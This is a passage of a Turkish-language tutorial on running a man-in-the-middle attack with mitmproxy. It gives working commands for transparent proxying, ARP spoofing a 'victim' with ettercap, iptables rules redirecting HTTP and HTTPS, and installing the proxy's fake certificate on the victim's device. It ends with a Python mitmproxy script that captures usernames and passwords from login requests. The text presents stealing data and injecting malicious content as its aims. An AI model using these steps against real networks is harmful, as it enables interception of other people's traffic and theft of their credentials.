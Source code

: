 2. MITMProxy Kullanarak MITM Saldırısı Nasıl Yapılır?
MITM saldırısı yapmak için aşağıdaki adımları uygulayacağız:
🔹 Adım 1: MITMProxy’yi Kurma
MITMProxy’yi kurmak için şu komutları kullanabilirsiniz:
bash
sudo apt update
sudo apt install mitmproxy -y
📌 Windows kullanıyorsanız: MITMProxy’yi indirip yükleyebilirsiniz.

🔹 Adım 2: MITMProxy’yi Trafiği Dinlemeye Başlatma
MITM saldırısını gerçekleştirmek için MITMProxy’yi şu şekilde başlatabilirsiniz:
bash
sudo mitmproxy -p 8080 --mode transparent
📌 Bu komut MITMProxy’yi 8080 portunda başlatır ve transparan modda çalıştırır.

🔹 Adım 3: Ağ Trafiğini Yönlendirme (ARP Spoofing)
MITM saldırısı için kurbanın ağ trafiğini kendi cihazımıza yönlendirmemiz gerekir. Bunu ARP Spoofing ile yapabiliriz.
1️⃣ Ettercap Kullanarak ARP Spoofing Yapma
Eğer ağdaki kurbanın trafiğini MITMProxy’ye yönlendirmek istiyorsanız:
bash
sudo ettercap -T -i eth0 -M arp:remote /KURBAN\_IP/ /AĞ\_GEÇİDİ\_IP/
📌 Bu komut, kurbanın (KURBAN\_IP) tüm ağ trafiğini sizin bilgisayarınıza yönlendirir.
2️⃣ iptables Kullanarak Trafiği Yönlendirme
MITMProxy ile kurbanın trafiğini yakalamak için aşağıdaki iptables kurallarını uygulayın:
bash
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 8080
📌 Bu kurallar, tüm HTTP ve HTTPS trafiğini MITMProxy’ye yönlendirir.

🔹 Adım 4: MITMProxy Sertifikasını Yükleme (HTTPS Trafiğini Okumak İçin)
HTTPS trafiğini analiz edebilmek için, MITMProxy’nin sahte sertifikasını kurbanın cihazına yüklememiz gerekir.
Kurbanın tarayıcısında adresine gidin.
Görünümüne göre uygun sertifikayı indirin ve yükleyin.
"Güvenilir Sertifika" olarak ekleyin.
📌 Böylece HTTPS trafiğini analiz edebilirsiniz!

3. MITMProxy ile Gerçekleştirilebilecek Saldırılar
MITM saldırısı yapıldıktan sonra, trafiği değiştirebilir, veri çalabilir ve zararlı içerik enjekte edebilirsiniz.

📌 Saldırı 1: Kullanıcı Giriş Bilgilerini Çalma
Eğer bir kurban bir web sitesine giriş yapıyorsa, MITMProxy ile giriş bilgilerini çalabilirsiniz:
python
from mitmproxy import http

def request(flow: http.HTTPFlow):
 if "login" in flow.request.pretty\_url:
 username = flow.request.urlencoded\_form.get("username")
 password = flow.request.urlencoded\_form.get("password")
 print(f"Kullanıcı Adı: {username}, Şifre: {password}")

📌 Bu betik, tüm giriş bilgilerini MITMProxy loglarına yazdırır.
